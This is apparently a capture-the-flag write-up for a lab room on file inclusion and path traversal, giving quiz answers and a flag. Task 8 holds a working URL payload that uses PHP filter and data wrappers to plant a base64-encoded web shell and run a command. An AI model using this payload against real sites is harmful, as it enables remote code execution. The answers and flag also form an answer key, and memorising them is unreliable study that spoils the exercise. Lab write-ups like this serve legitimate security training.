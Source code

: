 # File Inclusion, Path Traversal
## Task 1  Introduction
+ Objectives
    - Understand what File Inclusion and Path Traversal attacks are and their impact.
    - Identify File Inclusion and Path Traversal vulnerabilities in web applications.
    - Exploit these vulnerabilities in a controlled environment.
    - Understand and apply measures to mitigate and prevent these vulnerabilities.
## Task 2  Web Application Architecture
+ Click me to proceed to the next task. `No Answer Needed`
## Click me to proceed to the next task.
+ What kind of pathing refers to locating files based on the current directory?`Relative pathing`
+ What kind of pathing involves the file's complete path, which usually starts from the root directory?`Absolute pathing`
## Task 4  PHP Wrappers
+ What part of PHP's functionality allows users access to various data streams that can also access or execute code through built-in protocols?`PHP wrappers`
## Task 5  Base Directory Breakouts
+ Click me to proceed to the next task. `No Answer Needed`
## Task 6  LFI2RCE - Session Files
+ Click me to proceed to the next task. `No Answer Needed`
## Task 7  LFI2RCE - Log Poisoning
+ What technique does an attacker use to inject executable code into a web server's log file and then use a file inclusion vulnerability to include and execute the malicious code?
## Task 8  LFI2RCE - Wrappers
+ What is the content of the hidden text file in the flags folder?`THM{fl4g_cd3c67e5079de2700af6cea0a405f9cc}`
```payload
http://10.10.116.30/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=cat+flags/cd3c67e5079de2700af6cea0a405f9cc.txt
```
